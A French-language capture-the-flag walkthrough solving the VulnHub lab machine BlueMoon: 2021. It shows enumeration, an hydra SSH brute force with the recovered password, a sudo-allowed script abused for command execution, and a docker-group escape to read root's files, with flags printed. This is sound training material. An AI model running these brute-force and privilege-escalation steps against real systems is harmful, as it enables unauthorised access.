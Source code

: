 ```yaml
---
title: "Solution du CTF BlueMoon: 2021 de VulnHub"
date: 2022-11-04 13:33:00
tags: [CTF, VulnHub]
---
```


[BlueMoon: 2021](https://www.vulnhub.com/entry/bluemoon-2021,679/) est un CTF proposé sur VulnHub et créé par un certain *Kirthik*. La difficulté est notée comme facile sans plus de description. Il faut juste obtenir les droits root.

Un scan des ports de la VM (`sudo nmap -T5 -p- -sCV 192.168.56.40`) révèle trois services assez classiques. On note la présence d'un FTP qui ne semble pas ouvert aux connexions anonymes et effectivement un essai manuel retourne une erreur `530 Permission denied.`

Je suis donc passé à la phase d'énumération. Sur le site web on trouve une page de bienvenue avec deux images (une dans la page, l'autre est le favicon), rien de plus.

À l'aide de feroxbuster et des wordlists [raft](https://github.com/Averroes/raft/tree/master/data/wordlists) que j'utilise habituellement (efficaces et suffisamment courtes) j'ai tenté de trouver des fichiers et dossiers cachés en vain.

J'ai ensuite tenté de bruteforcer un éventuel compte FTP à l'aide d'hydra, toujours sans résultats.

J'ai analysé les images du site avec un éditeur hexadécimal à l'affut d'un quelconque indice.

Finalement j'ai refait une énumération web avec la wordlist plus grosse de [DirBuster](https://github.com/igorhvr/zaproxy/blob/master/src/dirbuster/directory-list-2.3-big.txt) et je suis tombé sur le fichier *hidden_text* contenant le message suivant :

> Maintanance!
> Sorry For Delay. We Will Recover Soon.
> 
> Thank You ...

La dernière ligne est un lien HTML pointant vers une image de QR code.

J'ai eu recours au site https://qrscanneronline.com/ qui a décodé l'image vers le script suivant:

```bash
#!/bin/bash

HOST=ip
USER=userftp
PASSWORD=ftpp@ssword

ftp -inv $HOST user $USER $PASSWORD
bye
EOF
```

Quand on se connecte au FTP on arrive immédiatement dans le dossier /home/userftp/files qui contient les fichiers suivants :

```
-rw-r--r--    1 0        0             147 Mar 08  2021 information.txt
-rw-r--r--    1 0        0             363 Mar 08  2021 p_lists.txt
```

Je remarque toutefois qu'il est possible de remonter l'arborescence pour aller jusqu'à la racine. A noter qu'il n'est pas possible de déposer une clé SSH dans le dossier de *userftp* ou de mettre un script php sous */var/www*.

On peut en revanche aller chercher le premier flag de l'utilisateur robin car le fichier est world readable mais on verra plus tard.

Le premier fichier contient le texte suivant :

> Hello robin ...!  
>       
>    I'm Already Told You About Your Password Weekness. I will give a Password list. you May Choose Anyone of The Password.

Le second est une liste de 32 mots de passe où des lettres ont été remplacées par des chiffres (aka leetspeak).

Une tentative de bruteforce sur le FTP échoue mais ça passe avec le SSH :

```bash
$ ./hydra -l robin -P /tmp/p_lists.txt ssh://192.168.56.40
Hydra v9.3 (c) 2022 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[DATA] max 16 tasks per 1 server, overall 16 tasks, 32 login tries (l:1/p:32), ~2 tries per task
[DATA] attacking ssh://192.168.56.40:22/
[22][ssh] host: 192.168.56.40   login: robin   password: k4rv3ndh4nh4ck3r
1 of 1 target successfully completed, 1 valid password found
```

On peut alors obtenir le flag `Fl4g{u5er1r34ch3d5ucc355fully}`

Premier réflexe une fois connecté, voir si l'utilisateur peut exécuter une commande via sudo :

```bash
robin@BlueMoon:~$ sudo -l
Matching Defaults entries for robin on bluemoon:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User robin may run the following commands on bluemoon:
    (jerry) NOPASSWD: /home/robin/project/feedback.sh
```

Le script en question n'est pas modifiable :

```
-r-xr--r-x 1 robin robin 235 Mar  8  2021 /home/robin/project/feedback.sh
```

Toutefois vu qu'on est le propriétaire on doit pouvoir changer les permissions.

On aura cependant pas à modifier le fichier puisque le script prend un nom de commande en entrée puis l'exécute :

```bash
#!/bin/bash

clear
echo -e "Script For FeedBack\n"

read -p "Enter Your Name : " name
echo ""
read -p "Enter You FeedBack About This Target Machine : " feedback
echo ""
$feedback 2>/dev/null

echo -e "\nThanks For Your FeedBack...!\n"
```

Exemple à l'exécution :

```
Script For FeedBack

Enter Your Name : toto

Enter You FeedBack About This Target Machine : id

uid=1002(jerry) gid=1002(jerry) groups=1002(jerry),114(docker)

Thanks For Your FeedBack...!
```

On saisissant `bash` comme feedback on obtient un shell peu agréable car l'output est envoyé sur /dev/null mais c'est suffisant pour déposer notre clé SSH dans le *.ssh/authorized_keys* et obtenir ensuite un vrai shell.

On a alors accès au second flag : *Fl4g{Y0ur34ch3du53r25uc355ful1y}*

On ne peux pas utiliser sudo car on ne dispose pas du mot de passe de *jerry* mais je note que l'utilisateur fait partie du groupe docker et qu'une image est présente sur le système :

```bash
jerry@BlueMoon:~$ id
uid=1002(jerry) gid=1002(jerry) groups=1002(jerry),114(docker)
jerry@BlueMoon:~$ docker images -a
REPOSITORY          TAG                 IMAGE ID            CREATED             SIZE
alpine              latest              28f6e2705743        20 months ago       5.61MB
```

Il suffit alors de lancer cette image en montant le répertoire de root à un emplacement spécifique dans le container. On aura alors accès à son contenu :

```bash
jerry@BlueMoon:~$ docker run -it -v /root:/real_root alpine
/ # cd real_root
/real_root # ls
root.txt
/real_root # cat root.txt

==> Congratulations <==

You Reached Root...!

Root-Flag 

     Fl4g{r00t-H4ckTh3P14n3t0nc34g41n}

Created By 

        Kirthik - Karvendhan


instagram = ____kirthik____



!......Bye See You Again......!
```
